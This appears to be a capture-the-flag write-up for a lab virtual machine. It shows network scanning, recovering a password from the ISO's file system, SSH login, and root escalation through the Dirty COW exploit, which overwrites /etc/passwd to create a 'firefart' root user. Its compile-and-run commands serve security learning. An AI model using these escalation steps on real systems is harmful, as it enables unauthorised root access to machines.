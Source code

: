 # Writeup 2

First we need to find the IP address of Virtual machine.

For that we use `nmap` package to process the next search:

``` bash
$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-13 17:56 MSK
Nmap scan report for 192.168.56.102  <== THIS is the IP address we are looking for
Host is up (0.015s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 255 IP addresses (1 host up) scanned in 37.77 seconds
```
Next step we browse the ISO file System.

Among other files ISO contains this `/casper/filesystem.squashfs` which is actually a whole compressed file system.
In order to decompress it we run the command:

``` bash
$ unsquashfs <destination_path> <your_path_to_ISO/casper/filesystem.squashfs>
```

After extracting the file system we see these two files in `/home/lmezard/`:

``` bash
$ ls /home/lmezard
fun  README
```

fun is an archive, unarchive then:

``` bash
$ tar xvf fun ; ls
ft_fun  fun  README
```

ft_fun directory conrtains many many files, written in C with comments containing its serial number.

For combining them together we use our `script.py` and creating new file `script.c`

``` bash
$ gcc script.c 
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```
``` bash
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

Now we are ready to connect via SSH and use the hash above as a password to `laurie` user.

``` bash
$ ssh laurie@192.168.56.102
Password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

For the next step we need to use system vulnerabilities.
The Linux kernel we are work with is:

``` bash
$ uname -r
3.2.0-91-generic-pae
```

``` bash
$ cat /etc/*-release
Ubuntu, 12.04
```

In order to exploit the system we search this [website](www.exploit-db.com) and find the [next solution](https://www.exploit-db.com/exploits/40839)

This exploit uses the dirtycow vulnerability, which is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018. It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem. Computers and devices that still use the older kernels remain vulnerable.



After compiling and running the program the user will be prompted for the new password.

Then this exploit back up the /etc/passwd file to /tmp/passwd.bak and overwrites the root account with the generated line.

After running the exploit you should be able to login with the newly created user, whiср name is "firefart" by default, and use this exploit to modify the user values according to your needs.

Compile the file
``` bash
$ gcc -pthread dirty.c -o dirty -lcrypt
```
Run the script with your new password
``` bash
$ ./dirty <my-new-password>
```
Log in to the root user named firefart
``` bash
$ su firefart
```

Enter your new password password

